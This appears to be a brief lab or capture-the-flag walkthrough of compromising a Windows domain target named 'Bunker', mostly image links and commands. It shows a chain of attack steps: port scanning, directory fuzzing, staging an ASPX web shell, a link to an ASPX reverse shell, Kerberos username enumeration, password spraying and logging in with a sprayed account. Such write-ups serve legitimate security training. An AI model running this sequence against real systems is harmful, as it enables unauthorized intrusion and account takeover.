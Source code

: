 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a1e9008-596b-411b-a72c-c78ff662881e)
```
 nmap -p- 192.168.2.7 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1090fd32-6904-40c3-ba28-e7d27ce5c1da)

```
 ftp 192.168.2.7
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bc1c825-1fc4-4d95-9a09-fe388d53957a)

https://infinitelogins.com/2020/01/20/hack-the-box-write-up-devel-without-metasploit/

```
ffuf -u http://192.168.2.7/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/96189e50-7fbe-424f-a226-54b0ae4e900c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a9e919aa-648a-4707-a4be-611d6dd10edb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8cc07b6b-174b-4655-8f82-eceebbfd4045)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d652f58-07c9-4bfc-9d38-0239ad8c0993)
```
cp /usr/share/webshells/aspx/cmdasp.aspx ~/CodeBy/AD/Bunker
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/883a0640-90f6-4ee3-8793-26b4ba0404a1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ea7c9cc-dc4f-49d2-a5bb-936057587b02)

https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e203fc9d-91e8-4ecf-aa6c-31ecf0542711)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1819789f-6478-49dd-813c-8872a73e1adf)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2841c526-af31-451e-b87e-7537340f1c5e)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.7 user.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/85ec86f3-29ce-4038-9789-c50a835dea9a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/894b6ab0-ba5c-4bdf-a5ce-28d1355d7f25)
```
./kerbrute_linux_amd64 passwordspray -d codeby.cdb --dc 192.168.2.7 user.txt PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ef6abbee-9f62-443c-be53-d41e2b778b05)
```
enum4linux-ng 192.168.2.7 -u 'kristina.levashova' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bcc55e3-d1eb-456b-9ae4-eaac391d0aa5)
```
ssh kristina.levashova@192.168.2.7
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dd5a088e-71bc-4ecd-ae1d-6d6257410552)


